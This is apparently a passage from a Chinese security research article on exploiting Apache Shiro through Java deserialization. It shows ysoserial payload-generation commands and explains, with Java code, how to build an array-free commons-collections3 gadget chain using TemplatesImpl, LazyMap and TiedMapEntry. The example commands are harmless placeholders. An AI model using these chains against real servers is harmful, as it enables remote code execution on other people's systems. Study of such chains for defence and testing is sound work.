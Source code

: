 [![](https://p5.ssl.qhimg.com/t010ad7d6c40a132bd4.png)](https://p5.ssl.qhimg.com/t010ad7d6c40a132bd4.png)

使用方式如下

```
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections2 "touch /tmp/xxxx"  &gt; /tmp/1.txt
cat /tmp/1.txt|base64
python3 crypt1.py base64Content
```

[![](https://p1.ssl.qhimg.com/t01462bf723d60d9f03.png)](https://p1.ssl.qhimg.com/t01462bf723d60d9f03.png)

### <a class="reference-link" name="0x2%20%E6%97%A0%E6%95%B0%E7%BB%84%E5%9E%8Bcommons-collections3%E5%88%A9%E7%94%A8%E9%93%BE"></a>0x2 无数组型commons-collections3利用链

**使用场景**<br>
这种情况适用于shiro上只有commons-collections3依赖库，并且该库存在于WEB-INF/lib中。

我们能否将ysoserial上的反序列化利用链按照它的要求改一改呢？那么我们首先要确定的是寻找无数组型的命令执行。碰巧的是在ysoserial工具中存在templatesImpl，利用字节码加载利用代码。

关于反序列化链的组合其实有很多种，其难点在于最终的调用链和封装链在逻辑上有很大的差异。我们最终要实现无数组反序列化利用链，有个简单的思路，使用templatesImpl命令执行，那么最后就要执行templatesImpl对象的newTransformer方法。反观整个ysoserial CC系列利用链，我们**可以进行任意对象方法调用**的梳理了下，总共有以下几种方式
<li>通过Transformer数组链式调用构造好参数的InvokerTransformer利用链，**特点是无需动态传递参数**
</li>
<li>使用TransformingComparator执行transform方法，**需要构造参数传递链**
</li>
<li>TiedMapEntry向LazyMap传递可控参数key，并调用LazyMap中的transform方法，**需要构造参数传递链**
</li>
简单分析这几个方式，第一种利用了Transformer数组，不太适合shiro的反序列化利用场景；第二种是commons-collections4的利用特性，在commons-collections3中TransformingComparator不可序列化；那么第三种就比较满足我们的需求了，可以通过一次transform调用执行传递过来key对象的任意方法。

为了方便构造，直接使用之前分析的CC链时的代码进行拼接，主要代码逻辑如下

```
final Object templates = createTemplatesImpl("touch /tmp/asdf");
final Transformer transformerChain = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, templates);
```

使用TiedMapEntry在构造方法中的key参数向lazyMap的get方法传递，之后再向transformerChain的transform方法传递，最后实现调用templates对象的newTransformer方法。

TiedMapEntry的构造方法如下，在执行toString方法的时候触发getValue方法，间接调用map.get(this.key)

[![](https://p0.ssl.qhimg.com/t014130bf8e0f92ce40.png)](https://p0.ssl.qhimg.com/t014130bf8e0f92ce40.png)

LazyMap的相关调用如下，成功将key传向transformerChain
